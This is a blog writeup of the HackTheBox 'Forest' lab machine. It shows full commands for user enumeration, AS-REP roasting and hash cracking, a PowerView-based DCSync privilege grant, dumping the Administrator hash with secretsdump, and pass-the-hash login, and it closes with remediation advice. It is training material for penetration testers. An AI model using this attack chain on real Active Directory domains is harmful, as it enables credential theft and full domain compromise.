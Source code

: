 ```yaml
---
layout: writeup
title: Forest - HackTheBox
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Forest Box from HackTheBox
image: # /assets/images/Forest/Forest.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null, LainKusanagi, Windows, Active Directory, DCSync]
---
```


Today I'm doing a writeup for a [Hack The Box](https://app.hackthebox.com/profile/2013658) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Forest, and it is rated Easy by the HackTheBox community. As usual, we get started with an nmap (`sudo nmap -A -sC -v -p- --open 192.168.227.38 -oN nmap`) which (gives more detail but) shows these open ports:

```
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

From checking `nxc smb 10.10.10.161 -u '' -p ''` we can see that the name is `FOREST` and the domain is `htb.local`. I see that there do not appear to be any web ports open, and I am unable to view anything through smb without authentication so I start to look around to see if I can get any other information through the other services. In particular we are able to get a ton of information with `enum4linux -a htb.local` (after adding the IP to the `/etc/hosts` file with an `htb.local` entry). I see a list of users:

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[GenkaiChan] rid:[0x2969]
user:[zeus] rid:[0x296a]
user:[test2] rid:[0x296b]
```

We can quickly get a `users.txt` file by running `cat aboveList.txt | cut -d [ -f 2 | cut -d ] -f 1`. 

I start a `nxc winrm 10.10.10.161 -u users.txt -p users.txt` just in case to see if any of the users have their own username as the password, and run that in the background. I also use ldapsearch with blank credentials to see if I can find anything interesting in there. The full command is `ldapsearch -x -H ldap://10.10.10.161 -D 'CN=admin,DC=htb,DC=local' -W -b 'DC=HTB,DC=LOCAL' 'objectClass=*'` and we enter a blank password after. It gives a ton of output, too much to be useful, but it shows that we are able to get it without authenticating. At that point, is is worth to check if we can kerberoast or aspreproast. I am not able to enumerate SPNs for Kerberoasting, but I do find a user with Pre-Authentication disabled. 

![Forest2.png](/assets/images/Forest/Forest2.png){: .center-aligned width="600px"}

I try to crack this password with hashcat: `hashcat -m 18200 svc-alfresco.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`. Eventually it cracks and we get: `svc-alfresco:s3rvice`. At this point, I see that the previous nxc command has stopped, and I see this: 

![Forest3.png](/assets/images/Forest/Forest3.png){: .center-aligned width="600px"}

Interesting. I try to connect via winrm (`evil-winrm -i 10.10.10.161 -u 'GenkaiChan' -p 'GenkaiChan'`), and it works. I do the same with the `svc-alfresco` account, and it works as well. So I actually have two users, though I'm a little suspicious of the GenkaiChan account given that HTB does not uses unique boxes for each user. I can file that away for the moment. I grab the user.txt flag at `C:\Users\svc-alfresco\Desktop\flag.txt` and move on. 

At this point I ran through a few of the usual first enumeration steps - checking privileges and history, running winpeas and adPEAS, and checking for any interesting files, but I don't see anything that sticks out. It makes sense to run bloodhound here and see if I can find anything interesting. 

When I mark my user as owned and run "Reachable High Value Targets", I get this map. 

![Forest4.png](/assets/images/Forest/Forest4.png){: .center-aligned width="600px"}

It is a little bit confusing because as I previously stated, I suspect the GenKaiChan user and possibly Test2 user are created by other student users on the machine. (For what it's worth, this is later confirmed.) This makes it kind of confusing, but the crucial part is that we are (transitive) members of the Account Operators group. The Account Operators group has GenericAll privileges on the Exchange Windows Permissions Group, which has WriteDACL Privileges on HTB.Local. 

![Forest5.png](/assets/images/Forest/Forest5.png){: .center-aligned width="600px"}

What this means is that we can create a user, add it to the `Exchange Windows Permissions` group, and then use that user to perform a DCSync attack on the domain. The steps are as follows:
1. Create the user: `net user poppop '321!Password' /add /domain`
2. Add it to the "Exchange Windows Permissions" Group: `net group "Exchange Windows Permissions" poppop /add`
3. Grant it DCSync writes (Please note that this step requires the **PowerView module**):
	1. `$SecPassword = ConvertTo-SecureString '321!Password' -AsPlainText -Force`
	2. `$Cred = New-Object System.Management.Automation.PSCredential('htb.local\poppop', $SecPassword)`
	3. `Import-Module .\PowerView.ps1` - this must be transferred to the machine. 
	4. `Add-ObjectACL -PrincipalIdentity poppop -Credential $Cred -Rights DCSync` (**The Add-ObjectACL command is the step that requires PowerView.ps1 to have been imported**)

Then we can simply perform the DCSync attack remotely with our new user:
`impacket-secretsdump 'poppop:321!Password@10.10.10.161' -just-dc-user Administrator -just-dc-ntlm`

This will get us just the Administrator's NTLM hash, but it can be run without the `-just-dc-user Administrator` flag to get the other users. 

![Forest6.png](/assets/images/Forest/Forest6.png){: .center-aligned width="600px"}

I did try cracking it, but no luck. It didn't actually matter though because we can simply run evil-winrm with the NTLM hash: `evil-winrm -i 10.10.10.161 -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'`.

![Forest7.png](/assets/images/Forest/Forest7.png){: .center-aligned width="600px"}

And boom, we get a shell, and we can grab the root flag on `C:\Users\Administrator\Desktop\root.txt`.

### Lessons Learned
In looking up other potential solutions for this box, I did see this bash script [here](https://sanaullahamankorai.medium.com/hackthebox-forest-walkthrough-2843a6386032): `for user in $(cat users.txt); do impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 $domain/${user} | grep -v Impacket; done`. I also got a little bit more familiar with bloodhound jut by needing to click around a little bit more to see how the chain of groups and permissions worked. 

One other thing I'd say is that this is my first HackTheBox writeup, and I'll be honest, I found the nature of the service confusing. I found another users credentials without realizing it, and I could have just completed the DCSync attack with them had I not guessed that's what was happening. So for me, that's something to keep an eye out for. 

### Remediation Steps
- Don't allow for ldap to be accessed without authentication.
- Require pre-authentication for the svc-alfresco account or it could be asreproasted. 
- Lock down the Exchange Windows Permissions Group, which has WriteDACL Privileges on HTB.Local. It's unclear which step definitely needs to be disabled without understanding the potential use case, but Service Accounts being members of IT Privileged Accounts being members of Account Operators being able to write anything to the Exchange Windows Permissions Group which has writeDACL permissions to the domain can't happen. 